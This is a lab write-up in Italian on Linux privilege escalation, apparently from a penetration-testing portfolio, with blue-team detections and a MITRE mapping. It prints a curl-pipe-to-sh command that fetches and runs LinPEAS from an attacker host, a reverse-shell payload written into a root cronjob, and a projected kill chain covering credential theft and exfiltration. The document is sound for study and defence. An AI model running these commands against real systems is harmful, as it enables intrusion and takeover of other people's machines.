






# Automated Post-Exploitation Enumeration: LinPEAS, Fileless Execution & LotL

> - **Fase:** System Exploitation - Privilege Escalation - Linux Automated Enumeration
> - **Visibilita:** Alta - l'esecuzione fileless di LinPEAS (curl | sh) genera traffico HTTP identificabile da IDS; la scansione massiva del filesystem genera un picco di I/O anomalo rilevabile da EDR/auditd
> - **Prerequisiti:** Shell con utente standard sulla macchina Linux target; connettivita outbound HTTP per il download fileless (o trasferimento preventivo del file); Python HTTP server attivo sull'attaccante per servire LinPEAS
> - **Output:** EXPLOIT-010 (credential disclosure in file di log/config via LinPEAS - severity Alto); EXPLOIT-011 (cronjob hijacking per reverse shell root - severity Alto); EXPLOIT-012 (CVE-2021-4034 PwnKit audit - severity Informativo, sistema aggiornato)

- Ambiente Operativo: Ubuntu Linux (Target VM) & Kali Linux Purple (Attacker Server)
- Vettore di Accesso Iniziale: Accesso non privilegiato (Utente standard `nick`)
- Toolchain Utilizzata: Python HTTP Server, cURL, LinPEAS, Netcat, GCC, Git
- Obiettivo: Condurre un'enumerazione massiva e automatizzata impiegando tecniche di esecuzione Fileless (In-Memory). Sfruttare le misconfiguration identificate (Cronjob Hijacking) per ottenere privilegi di `root` e validare la postura di sicurezza del sistema contro CVE pubbliche note (PwnKit).

---

## Executive Summary

Il presente documento illustra le metodologie avanzate di enumerazione locale post-compromissione (Post-Exploitation) e le successive fasi di Privilege Escalation. A fronte dell'acquisizione di un Initial Access su un sistema Linux, il mantenimento della Sicurezza Operativa (OPSEC) è stato garantito tramite l'uso dello script di automazione LinPEAS eseguito interamente in memoria RAM (Fileless Execution), bypassando le difese statiche (FIM/EDR).

L'analisi automatizzata ha permesso di isolare misconfiguration critiche (permessi Sudo, segreti in chiaro) e ha guidato la successiva fase offensiva (Weaponization), culminata con l'acquisizione dei massimi privilegi (`root`) tramite l'hijacking di un'operazione pianificata (Cronjob). Infine, l'assessment ha validato con successo la corretta implementazione delle patch di sicurezza del sistema target contro la vulnerabilità critica CVE-2021-4034.

---

## Fase 1: Defense Evasion & In-Memory Execution (Fileless)

Scaricare malware o script di enumerazione direttamente sull'hard disk della vittima (es. tramite `wget` e salvataggio in `/tmp/`) rappresenta un grave rischio OPSEC, in quanto genera eventi facilmente rilevabili da soluzioni di EDR (Endpoint Detection and Response) o FIM (File Integrity Monitoring) come Wazuh o Tripwire.

Per eludere queste difese, LinPEAS è stato ospitato su un web server locale controllato dall'attaccante e iniettato direttamente nell'interprete dei comandi della macchina vittima tramite una Pipe Execution:

```Bash
curl http://192.168.0.110/linpeas.sh | sh
```

Questa tecnica permette al processo sh di ricevere ed eseguire le istruzioni riga per riga direttamente dallo stream di rete, senza che alcun blocco di codice venga mai scritto in modo persistente sui dischi magnetici o a stato solido del server compromesso.



---

## Fase 2: Triage dei Vettori di Attacco (SUID/SUDO Hunting)

L'output generato da LinPEAS è intenzionalmente verboso e richiede un'attenta analisi per separare i falsi positivi ("rumore") dalle vulnerabilità sfruttabili ("segnale"). Lo script utilizza un codice cromatico specifico, dove le stringhe evidenziate in Rosso con sfondo Giallo indicano vettori di Privilege Escalation confermati al 99%.

Nel corso della scansione in memoria, l'analizzatore ha intercettato e flaggato immediatamente un'anomalia critica nelle policy di delega amministrativa. Come documentato nello stralcio di output, l'utente corrente era autorizzato a eseguire il binario `/usr/bin/find` con privilegi di `root` senza richiesta di password (`NOPASSWD`).


Figura 1: Output di LinPEAS che evidenzia in Rosso/Giallo la misconfiguration critica di sudoers relativa al binario 'find'.

Questa scoperta automatizza e conferma l'esito dell'enumerazione manuale condotta nel precedente assessment, offrendo un path diretto per l'esecuzione arbitraria di codice tramite parametro `-exec`.

---

**ID Finding:** `EXPLOIT-010` | **Severity:** `Alto`

## Fase 3: Credential Hunting & Information Discovery

Sistemi operativi regolarmente patchati e configurati correttamente dal punto di vista dei permessi dei binari possono comunque essere violati attraverso l'esposizione di segreti (Secret Leakage). La negligenza umana, come il salvataggio di stringhe di connessione a database in chiaro, rappresenta uno dei vettori LotL (Living off the Land) più efficaci.

Durante la sua esecuzione, LinPEAS ha effettuato un parsing aggressivo del file system, scansionando in particolare la directory `/var/log` e i file temporanei alla ricerca di keyword riconducibili a credenziali (`password`, `pwd`, `token`).



---

**ID Finding:** `EXPLOIT-011` | **Severity:** `Alto`

## Fase 4: Exploitation - Cronjob Hijacking (Reverse Shell)

Oltre alle misconfiguration standard, l'enumerazione ha rivelato la presenza di un'operazione pianificata (Cronjob) eseguita da `root` (`/opt/backup.sh`) le cui ACL (Access Control List) a livello di file system risultavano gravemente compromesse (`chmod 777`), permettendo la scrittura a qualsiasi utente non privilegiato.

Sfruttando questa falla logica, il contenuto legittimo dello script è stato sovrascritto con un payload Bash in grado di generare una connessione di ritorno (Reverse Shell) verso la macchina dell'attaccante:

```Bash
echo '#!/bin/bash' > /opt/backup.sh
echo 'bash -i >& /dev/tcp/192.168.0.110/4444 0>&1' >> /opt/backup.sh
```

Allo scoccare del minuto pianificato dal demone `cron`, il sistema ha eseguito il payload malevolo, consegnando all'attaccante una shell interattiva con permessi assoluti (`root`) sulla porta 4444.





---

**ID Finding:** `EXPLOIT-012` | **Severity:** `Informativo`

## Fase 5: Vulnerability Assessment & Patch Validation (CVE-2021-4034)

L'assessment ha previsto anche il tentativo di sfruttamento di vulnerabilità a livello di sistema operativo. Nello specifico, si è tentata la compilazione on-target di un Proof of Concept pubblico (PoC in linguaggio C) per la vulnerabilità PwnKit (CVE-2021-4034), che affligge il componente `pkexec` di Polkit.

In un primo momento, il sistema ha dimostrato una buona postura difensiva (Hardening) derivata dall'assenza del compilatore (`gcc` / `make` Error 127).

Successivamente all'installazione forzata del compilatore per finalità di test, l'esecuzione del binario exploit ha rivelato che il sistema operativo bersaglio risulta regolarmente aggiornato e non vulnerabile alla CVE.



---

## Blue Team: Rilevamento e Contromisure (Detection Engineering)

Per mitigare l'efficacia delle ricognizioni automatizzate e impedire l'escalation dei privilegi, si raccomandano le seguenti contromisure:

- Gestione Permessi File System (Cronjobs): Implementare audit periodici sui permessi dei file associati a demoni di sistema (`/etc/cron*`, `/opt`). Nessun file eseguito da root deve possedere permessi di scrittura globali (`chmod 777`). È consigliato l'uso rigoroso di permessi restrittivi (`755` o `700`) e l'assegnazione ferrea del proprietario (`chown root:root`).
- Hardening dei Server di Produzione: Non installare mai toolchain di sviluppo e compilatori (`gcc`, `make`, `g++`) su ambienti di produzione. Questo impedisce agli attaccanti di compilare exploit kernel/SUID direttamente sul target.
- Monitoraggio Processi (Process Tree Analysis): EDR e demone `auditd` devono allertare su esecuzioni anomale di `curl` o `wget` che passano l'output allo standard input di una shell (`| sh`). Ugualmente critico è lo spawn di shell interattive (`/bin/bash -i`) originate da processi non interattivi come il demone `cron`.
- Patch Management: Mantenere policy rigorose di aggiornamento dei pacchetti core (come dimostrato dall'efficacia della patch su `policykit-1` per bloccare PwnKit). Qualora l'aggiornamento non fosse possibile, mitigare tramite rimozione del bit SUID: `chmod 0755 /usr/bin/pkexec`.

---

## Tool di riferimento

| Tool | Tipo | Tecnica/Accesso | Caso d'uso principale |
| :--- | :--- | :--- | :--- |
| `LinPEAS` | Automated scanner | CLI - Attivo | Enumerazione completa vettori PrivEsc Linux: sudo, SUID, cron, credenziali, CVE |
| `pspy` | Process monitor | CLI - Passivo | Monitoring cronjob e processi senza privilegi root |
| `GTFOBins` | Reference DB | Web - Passivo | Catalogo binari Unix abusabili per escalation |
| `linux-exploit-suggester` | CVE suggester | CLI - Attivo | Suggerisce kernel exploit applicabili in base alla versione del kernel |
| `PwnKit (CVE-2021-4034)` | Kernel exploit | CLI | PrivEsc via pkexec, applicabile su quasi tutte le distro con polkit < 0.120 |
| `netcat` | Listener | CLI | Ricezione reverse shell via `bash -i >& /dev/tcp/IP/PORT 0>&1` |
| `auditd` + `ausearch` | Log analysis | CLI | Analisi log audit Linux per rilevare esecuzione di LinPEAS (Blue Team) |

---

## Scenario Reale: Proiezione Post-Exploitation

> Questa sezione descrive come EXPLOIT-010 ed EXPLOIT-011 si inserirebbero in un engagement reale su un server Linux.

### Prospettiva Attaccante (Red Team)

**Punto di partenza:** shell utente standard su server Linux; LinPEAS eseguito in memoria; credenziali trovate in file di configurazione (EXPLOIT-010); cronjob root con permessi 777 identificato (EXPLOIT-011).

**Kill Chain proiettata:**
```
Shell utente standard
        |
        v
EXPLOIT-010: LinPEAS trova credenziali in /var/log o config files
        |
        v
EXPLOIT-011: sovrascrittura /opt/backup.sh con reverse shell bash
        |
        v
Attesa esecuzione cron (max 1 minuto) -> shell root su porta 4444
        |
        v
Root acquisita -> lettura /etc/shadow -> crack offline password
        |
        v
SSH keys in ~/.ssh/ -> accesso laterale ad altri server nella LAN
        |
        v
In ambiente cloud: curl 169.254.169.254 -> credenziali IAM
        |
        v
Esfiltrazione database + deploy backdoor systemd persistente
```

**Impatto potenziale:** il cronjob hijacking (EXPLOIT-011) e particolarmente insidioso perche l'attacco e ritardato nel tempo (il payload viene eseguito dal cron daemon, non dall'attaccante direttamente) e molto difficile da attribuire. In un contesto aziendale reale porta tipicamente a perdita totale del server e potenzialmente dell'intera infrastruttura cloud.

**Vettori di monetizzazione tipici:**
- Ransomware Linux (RansomEXX, Cl0p): cifratura NFS share e filesystem del server
- Credential theft: dump /etc/shadow + SSH keys per vendita su forum underground
- Cryptomining persistente: root permette installazione come servizio systemd invisibile

### Prospettiva Difensore (Blue Team)

**Rilevamento:** `curl | sh` genera connessione HTTP da un processo utente non amministrativo verso IP esterno non in whitelist. `auditd` con regola su pipe execution (`curl` + `sh`) avrebbe rilevato il pattern. La sovrascrittura di `/opt/backup.sh` genera un evento inotify/auditd su file critico di sistema.

**Indicatori di Compromissione (IOC):**
- Processo: `sh` figlio diretto di `curl` (pattern pipe exploitation)
- File: `/opt/backup.sh` modificato da utente non root (timestamp recente, content cambiato)
- Connessione: `bash` con argomenti `/dev/tcp/IP/PORT` in uscita da cron daemon
- Processo: `bash -i` con stdin/stdout rediretto verso socket di rete

**Contenimento:** kill della reverse shell (`kill -9 PID`); ripristino `/opt/backup.sh` da backup; revoca/reset password account compromesso; patch polkit se necessario.

**Hardening strutturale:**
- Permessi cronjob: nessun file eseguito da root deve avere permessi di scrittura per utenti normali (`chmod 700`, `chown root:root`)
- Limitare outbound HTTP per utenti non privilegiati tramite iptables/nftables
- Abilitare auditd con regole su execve per `curl`, `wget` con argomenti pipe
- Patch immediata polkit: `sudo apt update && sudo apt install policykit-1` (risolve CVE-2021-4034)

---

## Mappatura MITRE ATT&CK

| Tattica |Tecnica | ID MITRE | Descrizione dell'Azione |
|---------|--------|----------|-------------------------|
| Execution | Command and Scripting Interpreter: Unix Shell | `T1059.004` |Utilizzo di `curl` interfacciato con `sh` per l'esecuzione in-memory dello script di ricognizione |
| Defense Evasion | Fileless Storage: In-Memory |`T1027` | Esecuzione diretta dalla RAM per bypassare le scansioni antivirus statiche e i controlli FIM (File Integrity Monitoring) |
| Privilege Escalation | Scheduled Task/Job: Cron | `T1053.003` | Alterazione di uno script eseguito periodicamente da root (Cronjob Hijacking) per stabilire una Reverse Shell |
| Privilege Escalation |Exploitation for Privilege Escalation | `T1068` | Tentativo di validazione e sfruttamento di vulnerabilità note del sistema operativo (PwnKit) |
| Credential Access | Unsecured Credentials: Credentials in Files | `T1552.001` | Ricerca di password in chiaro salvate in file di log e script locali |

---

> **Nota:** Tutte le attivita documentate sono state condotte in un ambiente di laboratorio virtualizzato. Le tecniche di privilege escalation (incluso CVE-2021-4034) sono state testate esclusivamente su macchine virtuali Linux di proprieta dell'autore. Nessuna tecnica e stata applicata a sistemi reali o di terze parti senza autorizzazione esplicita.